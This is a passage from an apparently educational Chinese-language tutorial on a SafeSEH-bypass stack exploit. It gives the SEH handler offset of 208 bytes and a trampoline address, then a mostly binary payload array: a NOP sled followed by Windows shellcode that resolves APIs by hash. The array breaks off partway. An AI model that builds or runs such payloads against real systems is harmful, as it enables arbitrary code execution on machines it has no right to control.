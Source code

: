 SEH 链：

[![](assets/1709014184-e4116bf8a46c9af2b1db51703a5cf37e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240225183334-53bcccae-d3c9-1.png)

距离栈顶最近的 SEH 处理地址：`0x0019FE80`，距离我们的缓冲区`0x19FE80-0x19fdb0 = 208`。  
我们在 208 ~ 212 偏移处写上我们的跳板指令地址`0x560c15ee`，为了保证 ShellCode 不被破环，我们在后面再跟 8 个字节 nop，然后后面跟上我们的 ShellCode。  
Pyaload：

```bash
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\SafeSEH\Debug\111.txt
// Address : 0 (0x0)
// Size    : 481 (0x1E1)
//------------------------------------------------------------
unsigned char hexData[481] = {
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0xEE, 0x15, 0x0C, 0x56,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
```